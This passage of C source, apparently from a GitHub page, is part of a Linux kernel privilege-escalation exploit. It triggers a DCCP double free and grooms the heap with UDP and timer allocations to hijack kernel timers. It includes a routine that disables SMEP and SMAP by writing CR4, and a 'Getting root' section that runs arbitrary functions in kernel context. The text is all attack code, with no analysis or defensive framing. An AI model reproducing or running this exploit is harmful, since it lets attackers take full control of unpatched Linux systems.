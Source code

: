         dccp_kmalloc_kfree(&dh);
        debug("catch 1");
        for (i = 0; i < CATCH_FIRST; i++)
            udp_fifo_kmalloc(&uh1, &dummy[0]);
        debug("dccp kfree again");
        dccp_kfree_again(&dh);
        debug("catch 2");
        for (i = 0; i < CATCH_FIRST; i++)
            udp_fifo_kmalloc(&uh2, &dummy[0]);
        int timers[CATCH_FIRST];
        debug("catch 1 -> timer");
        for (i = 0; i < CATCH_FIRST; i++) {
            udp_fifo_kfree(&uh1);
            timers[i] = timer_kmalloc();
        }
        debug("catch 1 small");
        for (i = 0; i < CATCH_AGAIN_SMALL; i++)
            udp_fifo_kmalloc_small(&uh4);
        debug("schedule timers");
        for (i = 0; i < CATCH_FIRST; i++)
            timer_schedule(timers[i], 500);
        debug("catch 2 -> overwrite timers");
        for (i = 0; i < CATCH_FIRST; i++) {
            udp_fifo_kfree(&uh2);
            udp_fifo_kmalloc(&uh3, &buffer[0]);
        }
        debug("catch 2 small");
        for (i = 0; i < CATCH_AGAIN_SMALL; i++)
            udp_fifo_kmalloc_small(&uh4);
        printf("[.] waiting for the timer to execute\n");
        debug("wait");
        sleep(1);
        printf("[.] done\n");
    }
    void disable_smep_smap() {
        printf("[.] disabling SMEP & SMAP\n");
        kernel_exec_irq((void *)NATIVE_WRITE_CR4, CR4_DESIRED_VALUE);
        printf("[.] SMEP & SMAP should be off now\n");
    }
    // * * * * * * * * * * * * * * * Getting root * * * * * * * * * * * * * * * * *
    // Executes func() from process context.
    void kernel_exec(void *func) {
        int i;
        struct dccp_handle dh;
        struct udp_fifo_handle uh1, uh2, uh3;
        char dummy[2048];
        char buffer[2048];
        printf("[.] executing %p\n", func);
        memset(&dummy[0], 0, 2048);
        init_skb_buffer(&buffer[0], func);
        udp_fifo_init(&uh1);
        udp_fifo_init(&uh2);
        udp_fifo_init(&uh3);
        debug("kmalloc pad");
        kmalloc_pad();
        debug("kmalloc warm");
        kmalloc_warm();
        debug("dccp init");
        dccp_init(&dh, port++);
        debug("dccp kmalloc kfree");
        dccp_kmalloc_kfree(&dh);
        debug("catch 1");
        for (i = 0; i < CATCH_FIRST; i++)
            udp_fifo_kmalloc(&uh1, &dummy[0]);